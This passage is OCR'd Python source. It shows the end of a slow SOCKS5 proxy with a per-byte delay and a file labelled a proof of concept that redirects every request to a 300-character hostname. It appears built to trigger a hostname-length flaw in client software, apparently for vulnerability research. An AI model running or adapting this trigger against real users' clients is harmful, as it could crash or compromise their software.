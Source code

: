        try:
            conn.close()
        except Exception:
            pass

def main():
    delay = 0.4
    if len(sys.argv) > 1:
        try:
            delay = float(sys.argv[1])
        except Exception:
            pass
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    s.bind((HOST, PORT))
    s.listen(5)
    print(f"[slow_socks5] listening on {HOST}:{PORT} with per-byte delay {delay}s", flush=True)
    try:
        while True:
            conn, addr = s.accept()
            print(f"[slow_socks5] connection from {addr}")
            t = threading.Thread(target=handle_client, args=(conn, addr, delay), daemon=True)
            t.start()
    except KeyboardInterrupt:
        pass
    finally:
        s.close()

if __name__ == '__main__':
    main()



poc.redirect_server.py
[03:31:20]
#!/usr/bin/env python3
import http.server, socketserver, threading, sys

PORT = 8000
LONG_HOST = 'a'*300

class Handler(http.server.SimpleHTTPRequestHandler):
    def do_GET(self):
        url = f"http://{LONG_HOST}/"
        self.send_response(301)
        self.send_header('Location', url)
        self.end_headers()
        self.wfile.write(b"Redirecting...\n")
    def log_message(self, fmt, *args):
        sys.stderr.write("[redirect] " + fmt % args + "\n")

if __name__ == '__main__':
    with socketserver.TCPServer(("127.0.0.1", PORT), Handler) as httpd:
        print(f"[redirect] serving at 127.0.0.1:{PORT} redirecting to {len(LONG_HOST)}-byte host", flush=True)
        try:
            httpd.serve_forever()
        except KeyboardInterrupt:
            pass
